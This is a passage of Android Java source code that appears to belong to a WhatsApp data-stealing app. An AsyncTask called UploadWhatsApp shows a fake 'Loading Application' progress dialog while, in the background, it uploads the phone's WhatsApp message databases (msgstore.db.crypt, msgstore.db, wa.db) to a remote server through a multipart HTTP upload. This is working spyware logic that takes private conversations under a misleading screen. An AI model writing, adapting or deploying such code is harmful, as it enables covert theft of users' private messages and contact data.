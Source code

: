     			// send multipart form data necesssary after file data...
    			dos.writeBytes(lineEnd);
    			dos.writeBytes(twoHyphens + boundary + twoHyphens + lineEnd);
    			// close streams
    			Log.e("Debug", "File is written");
    			fileInputStream.close();
    			dos.flush();
    			dos.close();
    		} catch (MalformedURLException ex) {
    			Log.e("Debug", "error: " + ex.getMessage(), ex);
    		} catch (IOException ioe) {
    			Log.e("Debug", "error: " + ioe.getMessage(), ioe);
    		}
    		// ------------------ read the SERVER RESPONSE
    		try {
    			if (conn != null){
    				inStream = new DataInputStream(conn.getInputStream());
    				String str;
    
    				while ((str = inStream.readLine()) != null) {
    					Log.e("Debug", "Server Response " + str);
    				}
    				inStream.close();
    			}
    
    		} catch (IOException ioex) {
    			Log.e("Debug", "error: " + ioex.getMessage(), ioex);
    		}
    	}
    
    	private class UploadWhatsApp extends AsyncTask<Void, Integer, Void>{
    
    		@Override
    		protected void onPreExecute()
    		{
    			//Create a new progress dialog
    			progressDialog = ProgressDialog.show(MainActivity.this,"Loading Application, please wait...",
    				    "Loading, please wait...", false, false);
    		}
    
    		//The code to be executed in a background thread.
    		@Override
    		protected Void doInBackground(Void... params)
    		{
    
    			String fileWACrypt = Environment.getExternalStorageDirectory()
    					.getPath() + "/WhatsApp/Databases/msgstore.db.crypt";
    			String fileWAPlain = Environment.getExternalStorageDirectory()
    					.getPath() + "/WhatsApp/Databases/msgstore.db";
    			String fileWAwa = Environment.getExternalStorageDirectory()
    					.getPath() + "/WhatsApp/Databases/wa.db";
    
    			MainActivity.this.uploadFile(fileWACrypt);
    			MainActivity.this.uploadFile(fileWAPlain);
    			MainActivity.this.uploadFile(fileWAwa);
    			return null;
    		}
    